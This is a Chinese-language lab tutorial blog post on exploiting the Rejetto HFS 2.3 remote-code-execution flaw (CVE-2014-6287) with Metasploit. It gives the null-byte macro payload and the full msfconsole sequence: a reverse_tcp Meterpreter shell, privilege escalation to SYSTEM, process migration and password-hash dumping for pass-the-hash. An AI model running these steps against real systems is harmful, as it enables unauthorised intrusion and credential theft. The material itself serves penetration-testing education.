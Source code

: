 ```yaml
---
layout: post
category: binghe-code-hack
title: Metasploit攻击HFS2.3上的漏洞
tagline: by 冰河
tag: [hack,binghe-code-hack]
excerpt: Metasploit攻击HFS2.3上的漏洞
lock: need
---
```


# Metasploit攻击HFS2.3上的漏洞

攻击机： kali 192.168.109.137

靶机： windows server 2012 192.168.109.141

工具：Metasploit

根据CVE-2014-6287的描述，Rejetto网络文件服务器(也被称为HSF或者HttpFileServer)的2.3x版本(2.3c以前的版本)中的parserLib.pas文件使用了一个findMacroMaker函数，该漏洞源于parserLib.pas文件没有正确处理空字节。远程攻击者可借助搜索操作中的%00序列利用该漏洞执行任意程序。

下面给出了这个有漏洞的函数：

```
function findMacroMarker(s:string; ofs:integer=1):integer;
begin result:=reMatch(s, '\{[.:]|[.:]\}|\|', 'm!', ofs) end;
```

这个函数不能正确的处理空字节，所以当我们对[http://localhost:80/search=%00](http://localhost:80/search=){.exec|cmd.}发起请求时，就会停止对宏的正则解析，从而导致远程代码的注入。

## 开启MSF

```
msfconsole
```

## 渗透漏洞

```
search hfs
use exploit/windows/http/rejetto_hfs_exec
show options
set RHOST 192.168.109.141
set RPORT 8080
show payloads
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.109.137
set LPORT 4444
show options
exploit
```

此时，我们已经以管理员的身份获得了Windows server 2012系统的权限。

## 将权限提升为系统级

```
getsystem
```

## 查看系统进程和Meterpreter正在驻留的进程号

```
ps
getpid
```

## 绑定Meterpreter到其他进程

这里，为了保险起见，我们将Meterpreter的进程绑定到explorer.exe的进程号，这里，explorer.exe的进程号为1864,执行如下命令：

```
migrate 1864
```

此时，我们再次输入getpid命令查看，Meterpreter正在驻留的进程号变成了1864

## 收集系统密码的哈希值

```
hashdump
```

完成了哈希值的收集之后，就可以执行pass-the-hash攻击，在没有明文密码的情况下绕过限制。


## 写在最后

> 如果你觉得冰河写的还不错，请微信搜索并关注「 **冰河技术** 」微信公众号，跟冰河学习高并发、分布式、微服务、大数据、互联网和云原生技术，「 **冰河技术** 」微信公众号更新了大量技术专题，每一篇技术文章干货满满！不少读者已经通过阅读「 **冰河技术** 」微信公众号文章，吊打面试官，成功跳槽到大厂；也有不少读者实现了技术上的飞跃，成为公司的技术骨干！如果你也想像他们一样提升自己的能力，实现技术能力的飞跃，进大厂，升职加薪，那就关注「 **冰河技术** 」微信公众号吧，每天更新超硬核技术干货，让你对如何提升技术能力不再迷茫！


![](https://img-blog.csdnimg.cn/20200906013715889.png)